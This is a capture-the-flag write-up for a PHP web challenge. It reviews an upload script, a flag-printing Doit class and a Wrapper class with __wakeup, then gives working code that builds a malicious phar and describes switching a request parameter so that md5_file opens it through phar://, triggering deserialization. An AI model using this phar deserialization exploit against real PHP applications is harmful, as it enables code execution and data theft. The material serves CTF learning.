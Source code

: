 ## Challenge

Find the vulnerability using the provided source code. Dockerfile included.

Exploit the vulnerability in http://challenges.ctfd.io:30455 to recover the flag. Please, no scanners, brute force, DoS against the live site.

Server is Ubuntu/Apache2/PHP7.4

## Code Review

### Index

```php
<?php
if (isset($_POST['submit']) && $_FILES['the_file']['size'] > 0)
{
	$dest_dir = getcwd() . "/uploads/";

	echo "<br />Submitted<br />";
	$target_file = $dest_dir . basename($_FILES["the_file"]["name"]);
	//print_r($_FILES);
	move_uploaded_file($_FILES["the_file"]["tmp_name"], $target_file);

	if ($_POST['s'] === 'p')
		$s = 'phar://';
	else
		$s = 'file://';
	echo md5_file("$s$target_file");
	unlink($target_file);
}
?>
```

### Doit Class

```php
<?php
class Doit {
        public function __construct()
        {
                $flag = getenv("FLAG");
                echo "flag{{$flag}}\n";
        }
}
?>
```

### Wrapper Class

```php
<?php
include("doit.php");

class Wrapper
{
	private $doit;
	public function __wakeup()
	{
		if (isset($this->doit))
		{
			$this->doit = new Doit();
		}
		else
		{
			echo "Hello from Wrapper!";
		}
	}
}
?>
```

## Exploit

At first change the `private $doit` to `public $doit` in class Wrapper, then code a [phar generator](./phar_creator.php) based on this class to upload a file and trigger the PHP Deserialization.

```php
<?php

namespace Flag {
  include './Project/wrapper.php';

    use Doit;
    use Wrapper;

  $phar = new \Phar("exploit.phar");
  $phar->startBuffering();
  $phar->setStub("<?php __HALT_COMPILER();");

  # Setting the metadata serializes the payload object
  $payload = new Wrapper();
  $payload->doit = new Doit();
  # Here’s where the object is serialized and added to the Phar
  $phar->setMetadata($payload);

  # Add a dummy file to respect the Phar specifications
  $phar->addFromString("test.txt", "test");
  $phar->stopBuffering();
}
```

```bash
php -c php.ini phar_creator.php
```

### Upload file

Upload a [exploit.phar](./exploit.phar) in page and with proxy change the value `f` in paramater `s` to value `p` to upload a `phar://` instead of `file://`. Check it in: [Index.php](./index.php).

### Flag
![Flag](./flag.png)
